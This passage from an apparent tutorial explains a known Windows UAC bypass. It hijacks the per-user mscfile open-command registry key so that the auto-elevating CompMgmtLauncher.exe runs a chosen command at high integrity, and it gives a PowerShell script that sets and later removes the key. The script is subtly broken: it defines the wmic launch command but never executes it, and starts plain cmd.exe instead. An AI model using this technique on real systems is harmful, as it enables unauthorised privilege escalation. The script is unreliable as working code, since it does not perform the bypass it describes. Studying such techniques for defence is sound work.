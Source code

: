Let's take a look at a known Windows program which contains the same auto-elevate property but it is also vulnerable to a UAC bypass exploit.
The UAC bypass exploit we will see requires that UAC is set to its default setting.

We've identified a program which auto-elevates as a high-integrity process (i.e. "Computer Management" `C:\Windows\System32\CompMgmtLauncher.exe`), which naturally bypass UAC in a sense. We've also identified that the program checks for registry keys and values (i.e. `HKCU:\Software\Classes\mscfile\shell\open\command`), which are writable by us, and which are responsible for associating file types of MSC extension to a specific application. We also hijacked that process to launch a command of our choosing (i.e. `C:\Windows\System32\calc.exe`).

Now, let's see a PowerShell script that once executed will run a command of our choosing (copy a file in a protected directory) as high-integrity and will bypass UAC.
```powershell
<#
UAC Bypass
#>

# Check UAC status
Write-Host "[+] Checking UAC status."
$ConsentPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).ConsentPromptBehaviorAdmin
$SecureDesktopPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).PromptOnSecureDesktop

if ($ConsentPrompt -eq 2 -and $SecureDesktopPrompt -eq 1) {
    Write-Host "[!] UAC is set to 'Always Notify', I can't help you."
    exit
}
else {
    Write-Host "[*] UAC Status OK and set to 'Default'."

    # Modify registry for UAC bypass
    $MscRegPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
    $ValName = "(Default)"
    $RegValue = "cmd /c copy C:\users\localadmin\desktop\test.txt C:\windows\system32\test.txt"
    New-Item -Path $MscRegPath -Force | Out-Null
    New-ItemProperty -Path $MscRegPath -Name $ValName -Value $RegValue | Out-Null

    # Bypass UAC using CompMgmtLauncher.exe
    $CompMgmtBypass = "wmic process call create 'cmd.exe /c start /min C:\windows\system32\CompMgmtLauncher.exe'"
    $a_cmd = "C:\windows\system32\cmd.exe"
    &$a_cmd

    # Wait for some time
    Start-Sleep -Seconds 5

    # Cleanup registry modifications
    $MscRegCleanup = "HKCU:\Software\Classes\mscfile"
    Remove-Item -Path $MscRegCleanup -Force -Recurse -ErrorAction SilentlyContinue | Out-Null
}
```
